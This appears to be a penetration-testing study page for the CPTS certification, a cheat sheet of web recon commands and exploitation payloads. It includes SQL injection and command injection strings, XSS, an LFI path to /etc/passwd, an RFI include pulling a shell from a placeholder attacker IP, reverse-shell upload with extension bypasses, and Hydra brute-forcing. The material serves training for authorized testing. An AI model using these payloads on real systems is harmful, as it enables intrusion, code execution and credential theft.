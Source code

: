 ```yaml
---
title: Web Vulnerability Assessment & Exploitation
parent: CPTS
grand_parent: Categories
nav_order: 4
has_children: false
layout: default
---
```


# Web Vulnerability Assessment & Exploitation

## Overview

This section focuses on identifying and exploiting vulnerabilities in web applications — including injection flaws, broken authentication, misconfigurations, and insecure inputs.

---

## Web Vulnerability Assessment

### Directory Bruteforcing
```bash
gobuster dir -u http://<target> -w /usr/share/wordlists/dirb/common.txt
```

Alternative:
```bash
ffuf -u http://<target>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

### HTTP Headers & Server Info
```bash
curl -I http://<target>
whatweb <target>
wappalyzer (Browser Plugin)
```

### Nikto Web Scan
```bash
nikto -h http://<target>
```

### CMS Scanners
```bash
wpscan --url http://<target>
droopescan scan drupal -u http://<target>
```

---

## Web Exploitation Techniques

### SQL Injection

Manual test:
```sql
' OR '1'='1
```

Automated:
```bash
sqlmap -u "http://<target>/page.php?id=1" --dbs
```

### Command Injection
```bash
http://<target>/ping?host=8.8.8.8;whoami
```

Payloads:
```bash
& whoami
| id
```

### File Upload Exploitation

Upload a reverse shell:
- Use `php-reverse-shell.php` from pentestmonkey
- Modify IP and port
- Upload it via vulnerable endpoint

Bypass extension restrictions using Burp:
- Change `Content-Type`
- Rename `.php5`, `.phtml`, `.phar`

### XSS (Cross-Site Scripting)
```html
<script>alert(1)</script>
```
Stored vs Reflected:
- Reflected in URL
- Stored inside database or backend

### Local File Inclusion (LFI)
```bash
http://<target>/?page=../../../../etc/passwd
```

Try null byte:
```bash
?page=index.php%00
```

### Remote File Inclusion (RFI)
```bash
?page=http://<your_ip>/shell.txt
```
Use Python server:
```bash
python3 -m http.server
```

### Broken Authentication
- Intercept login request with Burp Suite
- Attempt login bruteforce with Hydra:
```bash
hydra -L users.txt -P rockyou.txt http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
```

---

## Notes
- Always use Burp Suite to test parameters
- Don't assume — test all input, including cookies and headers
- Store evidence: screenshots, request logs, payloads used
- Clean up test shells or webshells if needed
